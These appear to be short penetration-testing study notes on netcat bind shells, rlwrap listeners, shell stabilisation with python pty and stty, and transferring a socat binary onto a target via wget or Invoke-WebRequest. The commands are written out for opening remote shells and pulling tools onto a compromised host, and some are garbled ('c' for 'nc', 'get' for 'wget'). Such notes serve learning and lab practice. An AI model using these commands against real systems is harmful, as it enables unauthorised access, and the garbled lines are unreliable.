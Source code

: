 
### Bind Shell example

On the attacking machine
```n
c 10.10.36.67 <port>
```

On the target
```
nc -lvnp <port> -e "cmd.sh"
```
>--cmd.exe would contain code that starts a listener attached to a shell directly on the target

---

## Stabilisation

### rlwrap listener & stabilization
```
rlwrap nc -lvnp <port>
```
>starts listener on host

background the shell with `Ctrl + Z`, then use `stty raw -echo; fg` to stabilise and re-enter the shell. 

---
### Python stabilize


1. have to explicitly state python,python2,python3
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
2. (press ctrl+Z to background the shell)
3. Use `stty raw -echo` to give us access to term commands such as clear 
4. reconnect to the shell through the listener
5. Then use` export TERM=xterm




---

### soCat stabilization

use a webserver on the attacking machine inside the directory containing your socat binary 
```
~sudo python3 -m http.server 80
```
then, on the target machine, using the netcat shell to download the file.
```
get <LOCAL-IP>/socat -O /tmp/socat
```
```
~Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```

---
